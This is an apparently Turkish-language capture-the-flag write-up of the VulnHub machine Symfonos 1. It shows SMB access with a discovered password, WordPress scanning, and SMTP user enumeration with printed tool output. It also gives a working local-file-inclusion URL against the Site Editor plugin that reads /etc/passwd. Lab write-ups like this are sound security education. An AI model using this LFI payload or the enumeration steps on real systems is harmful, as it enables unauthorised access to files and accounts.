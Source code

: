 helios klasörüne *qwerty* parolası ile erişim sağlanmaktadır.

```bash
smbclient  //192.168.56.114/helios -U helios
```
{{< image src="/images/vulnhub/symfonos1/smb3.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

Paylaşılan dosyalar get komutu ile indirilir ve içerikleri görüntülenir. Yapılacaklar adlı dosyada **/h3l105** dizini dikkat çekmektedir. 

{{< image src="/images/vulnhub/symfonos1/todo.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

Tarayıcı ile web servisine istek atılır. Açılan sayfada sadece bir resim vardır. Daha sonra elde edilen dizine (```http://symfonos.local/h3l105```) istek atıldığında wordpress uygulaması karşımıza çıkmaktadır.

{{< image src="/images/vulnhub/symfonos1/web2.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

**Wpscan** aracı ile web sayfasında tarama yapılır. Wordpress sürümü, sistemdeki kullanıcılar vb. bir çok bilgi tespit edilir. Upload klasörünün erişime açık olduğu bilgisi dikkat çekmektedir.

{{< image src="/images/vulnhub/symfonos1/wpscan.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

Uploads klasörüne girildiğinde **siteeditor** adında klasör görülmektedir. Yapılan araştırma wordpress plugin olduğu ve uygulamaya ait *LFI* açığı olduğu tespit edilmektedir.

{{< image src="/images/vulnhub/symfonos1/expdb.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

Exploit detaylarına bakıldığında lfi zafiyetinin olduğu dizin ve parametreler aşağıda görülmektedir.

{{< image src="/images/vulnhub/symfonos1/expdb2.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

/etc/passwd dosyasını okunmaya çalışılır. 

```text
http://symfonos.local/h3l105/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```

{{< image src="/images/vulnhub/symfonos1/lfi.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}
Bu aşamadan sonra mail servisinde keşif yapılır. smtp-user-enum aracı ile helios kullanıcısı doğrulaması gerçekleştirilir. 

```bash
smtp-user-enum -u helios -t 192.168.56.114
```
```terminal
Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... VRFY
Worker Processes ......... 5
Target count ............. 1
Username count ........... 1
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ 

######## Scan started at Sat Oct  3 08:13:56 2020 #########
192.168.56.114: helios exists
######## Scan completed at Sat Oct  3 08:13:56 2020 #########
```